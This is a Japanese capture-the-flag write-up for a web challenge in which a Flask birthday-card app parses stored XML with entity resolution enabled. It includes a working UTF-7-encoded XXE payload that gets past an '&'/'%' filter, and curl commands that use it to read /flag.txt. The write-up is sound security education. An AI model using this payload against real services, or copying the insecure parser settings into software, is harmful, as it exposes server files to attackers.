

# card:Web:258pts
誕生日カードを送り合えるWebアプリができました！ [http://20.2.65.248:60001/](http://20.2.65.248:60001/)  
[card.zip](card.zip)  

# Solution
URLとソースが渡される。  
アクセスすると誕生日カードを送り合えるサービスらしい。  
  
配布ファイルを確認すると、/flag.txtにフラグがあることがわかる。  
app.pyを見ると以下のようであった。  
```python
from flask import Flask, request, make_response, render_template, redirect, url_for
from lxml import etree
import os
import secrets
import uuid

app = Flask(__name__)

cards_directory = "cards"
os.makedirs(cards_directory, exist_ok=True)

@app.route('/')
def index():
    user_id = request.cookies.get('user_id')
    if not user_id:
        response = make_response(render_template('home.html'))
        user_id = secrets.token_hex(16)
        response.set_cookie('user_id', user_id)
        return response
    else:
        return render_template('home.html')

@app.route('/send', methods=['GET', 'POST'])
def send():
    if request.method == 'POST':
        recipient_id = request.form['recipient_id']
        card_data = request.form['card_data']

        card_data = card_data.replace('&','')
        card_data = card_data.replace('%','')

        file_name = f"{recipient_id}_{uuid.uuid4()}.xml"
        file_path = os.path.join(cards_directory, file_name)

        with open(file_path, 'w') as file:
            file.write(card_data)
        
        return redirect(url_for('index'))
    else:
        return render_template('send.html')

@app.route('/view')
def view():
    user_id = request.cookies.get('user_id')
    card_files = [f for f in os.listdir(cards_directory) if f.startswith(user_id)]
    cards = []

    parser = etree.XMLParser(load_dtd=True, no_network=False, resolve_entities=True)

    for card_file in card_files:
        file_path = os.path.join(cards_directory, card_file)
        try:
            with open(file_path, 'rb') as file:
                xml_data = etree.parse(file, parser)
                message = xml_data.xpath('/card/message/text()')
                if message:
                    cards.append(message[0])
                else:
                    cards.append("Invalid card format.")
        except etree.XMLSyntaxError as e:
            cards.append(f"Error parsing XML: {e}")
    
    return render_template('view.html', cards=cards)

if __name__ == '__main__':
    app.run(debug=True, host='0.0.0.0', port=60001)
```
ランダムな`user_id`を🍪へ入れ、それをもとにファイルでカードデータの管理をしている。  
ファイル名の一部は自由に書き換えられるが、uuidがついているのでトラバーサルなどはできない。  
管理はxmlで行われており、謎で怪しい。  
おそらくXXEだろうと考えるが、`&`や`%`が保存段階で取り除かれる。  
ここで該当する文字を使わないXXE手法を考えると、エンコーディングをUTF-7などにしてやるテクニックを思い出す。  
以下のようなXMLでXXEができる(エンコードは[ここ](http://tools.nash-dev.com/))。  
```xml
<?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-file:///flag.txt+ACI +AD4AXQA+
+ADw-card+AD4APA-message+AD4AJg-xxe+ADsAPA-/message+AD4APA-/card+AD4-
```
フォームデータとして送信してやる。  
```bash
$ curl -X POST http://20.2.65.248:60001/send -F 'recipient_id=satoki' -F 'card_data= <?xml version="1.0" encoding="UTF-7"?>
+ADwAIQ-DOCTYPE foo+AFs +ADwAIQ-ELEMENT foo ANY +AD4
+ADwAIQ-ENTITY xxe SYSTEM +ACI-file:///flag.txt+ACI +AD4AXQA+
+ADw-card+AD4APA-message+AD4AJg-xxe+ADsAPA-/message+AD4APA-/card+AD4-'
<!doctype html>
<html lang=en>
<title>Redirecting...</title>
<h1>Redirecting...</h1>
<p>You should be redirected automatically to the target URL: <a href="/">/</a>. If not, click the link.
$ curl -s http://20.2.65.248:60001/view -H 'Cookie: user_id=satoki' | grep -o 'shioCTF{.*}'
shioCTF{UTF7_1s_u5efu1_enc0d1ng}
```
ファイルを読み取るとflagが得られた。  

## shioCTF{UTF7_1s_u5efu1_enc0d1ng}